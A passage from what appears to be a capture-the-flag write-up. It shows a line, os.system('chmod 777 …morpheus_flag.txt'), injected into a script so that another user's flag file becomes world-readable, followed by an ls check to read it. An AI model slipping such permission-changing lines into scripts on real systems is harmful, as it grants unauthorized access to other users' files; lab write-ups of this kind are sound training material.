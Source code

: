 A possible line to add is an OS call to change the permissions of the Morpheus flag.

```python
os.system("chmod 777 /home/morpheus/morpheus_flag.txt")
```

<Image src={require("./18-copy2.webp").default} />

After some time, we can check the permissions of the file and read the flag.

```bash
ls -al /home/morpheus/morpheus_flag.txt
```

<Image src={require("./19-morpheus-flag.webp").default} />
